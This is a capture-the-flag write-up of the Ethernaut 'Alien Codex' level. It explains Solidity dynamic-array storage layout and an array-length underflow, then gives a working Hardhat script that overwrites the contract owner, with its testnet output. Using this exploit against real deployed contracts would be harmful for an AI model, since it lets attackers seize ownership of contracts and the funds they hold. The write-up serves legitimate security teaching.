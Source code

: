 ```yaml
---
title: "Ethernaut #19 Alien Codex"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Alien Codex challenge writeup
---
```


## Alien Codex

### Challenge

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

* Understanding how array storage works
* Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
* Using a very `underhanded` approach


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

### Background

This challenge is actually something I have suggested and discussed with some friends after a HAM radio lecture a few days ago :)

Arrays are allocated in two different ways. There are fixed-length arrays and dynamic-length arrays. Fixed-length arrays allocate space as if each element in the array was a separate variable. Dynamic-length arrays on the other hand, work in a very different way. Dynamic-length arrays store the length of the array in the slot given, and then use the `keccak` hash of that slot number to point to the location of the array. Then the array is accessed in a consecutive fashion. The problem arrises when one realizes that the length value is just a number stored in the `array.length` variable and if it can be manipulated, an attacker could extend it and make the array overlap other stuff in storage and then potentially access it by indexing into the array. Since solidity version `0.6.0` the `array.length` is now treated as read only by the compiler, however it is **NOT** a constant. Manipulating the slot using some other technique could still change its value.

### Attack

In order to attack this challenge, we first need to extend the length of the array. This can be achieved usign an integer underflow vulnerability. This can be achieved by simply calling the `retract` function before adding anything to the array. This will underflow the integer and go from `0x0000000000000000000000000000000000000000000000000000000000000000` to `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`. In order to call the `retract` function we also need to call the `make_contact` function just to bypass the modifier check. Finally we can calculate the offset of the array start to the first slot (slot 0) and replace the item at that index with the attackers address using the `revise` function.

We could consider clearing the `contact` variable and even fixing the array length, but since its not required we wont be bothering with this.

* Call the `make_contact` function to bypass the modifier check
* Call the `retract` function to underflow the `length` variable
* Calculate the array starting point using `keccak(uint256(0x01))`
* Calculate the offset at which the array would wrap around
* Call the `revise` function to replace the array location at the calculated offset with the attackers address

#### alien-codex-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    alienCodexAddress = "0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5";
    contract = await ethers.getContractAt("AlienCodex", alienCodexAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address : " + contract.address)
    console.log("Contract owner: " + await contract.owner())

    // calculate start of array
    arrayStart = ethers.utils.keccak256(ethers.utils.hexZeroPad(0x01, 32))

    // calculate owner offset (slot 0) from start of array
    offset = ethers.BigNumber.from('0x10000000000000000000000000000000000000000000000000000000000000000').sub(ethers.BigNumber.from(arrayStart))
    offsetHex = ethers.utils.hexZeroPad(offset, 32)

    // bypass modifier check
    tx = await contract.connect(account).make_contact()
    receipt = await tx.wait()

    // underflow array length to access full space
    tx = await contract.connect(account).retract()
    receipt = await tx.wait()

    // replace owner by writing address to array at calculated offset
    tx = await contract.connect(account).revise(offsetHex, ethers.utils.hexZeroPad(account.address, 32))
    receipt = await tx.wait()
    
    console.log("Contract owner: " + await contract.owner())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/alien-codex-solve.js --network rinkeby
Level address : 0xEba61037dEdbcbdaFF55315B626cF7C06B8fFbf5
Contract owner: 0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272
Contract owner: 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
